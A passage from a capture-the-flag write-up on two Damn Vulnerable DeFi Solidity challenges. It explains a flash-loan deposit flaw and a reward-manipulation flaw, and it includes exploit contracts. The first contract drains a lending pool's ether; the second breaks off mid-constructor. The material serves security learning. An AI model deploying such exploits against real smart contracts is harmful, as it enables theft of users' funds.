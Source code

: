 ```
}
```



### Side entrance
The objective of this challenge is:
- Transfer all ethers from `SideEntranceLenderPool` contract to the attacker.
  
The `flashLoan()` function in the `SideEntranceLenderPool` contract makes an external call with `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}()`. The challenger can create a contract with an `execute()` function that calls the `deposit()` function of `SideEntraceLenderPool` contract and send the borrowed ether to `SideEntranceLenderPool` contract. Since `flashLoan()` checks whether the ether has been returned with `require(address(this).balance >= balanceBefore)`, the ether will reside in the `SideEntranceLenderPool`, but be withdrawable by the challenger.
```
<!-- Solidity -->
contract SideEntranceExploit {
    using Address for address payable;
    receive() external payable {}
    ISideEntranceLenderPool _pool;
    constructor (address poolAddress) {
        _pool = ISideEntranceLenderPool(poolAddress);
    }
    function exploit() external {
        _pool.flashLoan(address(_pool).balance);
    }
    function execute() external payable {
        _pool.deposit{value: msg.value}();
    }
    function withdraw() external {
        _pool.withdraw();
        payable(msg.sender).sendValue(address(this).balance);
    }
}
```

### The rewarder
The objective of this challenge is:
- Issue a significant number of RWT tokens reward for the upcoming round to the attacker.
  
The `distributeRewards()` function in `TheRewarderPool` contract mints the accounting token (rTKN) and distributes reward token (RWT) based on the number of rTKN minted in a single transaction. Since rTKN is minted when DVT tokens are deposited to `TheRewarderPool` contract, the challenger can borrow DVT tokens from `FlashLoanerPool` contract and use the borrowed DVT tokens to call `deposit()` function in the `TheRewarderPool` contract to mint an equivalent number of rTKN to the number of DVT tokens deposited. When rTKN is minted, `TheRewarderPool` will call `distributeRewards()` function that reward RWT tokens to users with rTKN balance. The challenger then calls `withdraw()` function in `TheRewarderPool` contract to withdraw the DVT tokens deposited by burning rTKN. In the end, the challenger owned contract will be left with RWT tokens it was rewarded.
```
<!-- Solidity -->
contract TheRewarderExploit {
    FlashLoanerPool public immutable flpool;
    DamnValuableToken public immutable dvtoken;
    TheRewarderPool public immutable rpool;
    RewardToken public immutable rtoken;


    constructor(address _flashLoanerPool, address _damnValuableToken, address _rewarderPool, address _rewardToken) {
        flpool = FlashLoanerPool(_flashLoanerPool);
        dvtoken = DamnValuableToken(_damnValuableToken);
        rpool = TheRewarderPool(_rewarderPool);
        rtoken = RewardToken(_rewardToken);
```